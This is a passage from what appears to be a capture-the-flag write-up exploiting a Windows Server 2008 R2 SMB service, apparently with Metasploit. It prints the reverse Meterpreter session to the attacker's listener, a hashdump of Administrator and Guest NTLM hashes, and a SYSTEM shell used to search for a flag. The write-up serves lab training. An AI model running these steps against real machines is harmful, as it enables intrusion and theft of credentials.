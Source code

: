 ```terminal
[*] 10.150.X.X:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 10.150.X.X:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 10.150.X.X:445 - 0x00000030  61 63 6b 20 31   
[*] Meterpreter session 1 opened (10.66.66.50:4444 -> 10.150.X.X:51221) at 2023-09-18 10:49:19 -0400
meterpreter > 
```
WIN, We have successfuly got our session opened in the machine as you can see we have a `meterpreter` shell.
If you don't know how to use the `meterpreter` shell, you can execute the `help` command to see all available commands.
for me i will Just launch the `hashdump` command.
```terminal
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:483c7adb3e1378e9a187b42baa228745:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter >
```
I have dumped the `Administrator` password hashes and same for the `Guest` user...
I will now switch on the `shell` command line.

```terminal
meterpreter > shell
Process 1332 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
Now i will search my FLAG on the machine :)

```terminal
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F80A-FDD9

 Directory of C:\

06/27/2016  09:36 AM    <DIR>          inetpub
07/14/2009  03:20 AM    <DIR>          PerfLogs
01/17/2020  06:27 PM    <DIR>          Program Files
10/25/2019  09:04 AM    <DIR>          Program Files (x86)
05/23/2019  08:33 PM    <DIR>          Users
01/17/2020  06:27 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  23,354,429,440 bytes free

```
I accessed on the `Users` directory and found administrator user.

